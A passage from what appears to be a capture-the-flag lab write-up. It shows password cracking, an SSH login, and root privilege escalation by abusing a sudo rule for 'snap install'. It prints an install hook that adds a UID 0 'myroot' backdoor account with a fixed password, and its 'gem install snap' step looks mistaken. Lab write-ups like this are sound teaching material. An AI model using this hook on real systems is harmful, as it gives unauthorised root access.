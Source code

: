 After a short time we get a hit.
<p align="center">
<img width="258" alt="17-hashcatresults" src="https://user-images.githubusercontent.com/21021400/143077246-2d33ef3c-6f64-4d0a-8ff0-a74154069ad9.png">
</p>

Trying login to ssh with the credentials we got.
<p align="center">
<img width="222" alt="18-sshlogin" src="https://user-images.githubusercontent.com/21021400/143077248-55a79328-0686-408e-add6-1f0100e399bf.png">
</p>

## Privilege Escalation (brucetherealadmin -> root)

Checking sudo -l:
<p align="center">
<img width="877" alt="19-sudol" src="https://user-images.githubusercontent.com/21021400/143077250-7c775676-41d6-4930-a8fe-2134eec42c6e.png">
</p>

We can run snap as root with the install * arguments.  

Checking on GTFOBins how we can abuse it:  
<p align="center">
<img width="630" alt="20-gtfobins" src="https://user-images.githubusercontent.com/21021400/143077252-38470c6f-939b-41a5-9e85-434fe4ec2dac.png">
</p>

In addition, a research in google lead to this article about exploiting snap with sudo permissions:  
https://blog.ikuamike.io/posts/2021/package_managers_privesc/#exploitation-snap  

On the local machine:  
Install snap by typing the following command:  
```
gem install snap
```

Create the following directories using mkdir with -p flag:  
snap/meta/hooks  
<p align="center">
<img width="121" alt="21-mkdir" src="https://user-images.githubusercontent.com/21021400/143077255-204a4fcf-64d0-482a-b96e-1bb2f0a59901.png">
</p>

Create a file named "install" in the hooks directory with the following content:  
```
#!/bin/bash  
/usr/sbin/useradd -p $(openssl passwd -1 pass) -u 0 -o -s /bin/bash -m myroot
```

<p align="center">
<img width="313" alt="22-installcontent" src="https://user-images.githubusercontent.com/21021400/143077256-ddc8569e-785e-446b-8158-8ac2f00f85eb.png">
</p>

This script, when will be executed later by the victim's machine's root user, will add a new user named "myroot" with the "pass" password.  

Changing the install file permissions to be executable.  
<p align="center">
<img width="152" alt="23-installpermissions" src="https://user-images.githubusercontent.com/21021400/143077258-d70674d8-ffeb-48d5-9d73-71578d009033.png">
</p>
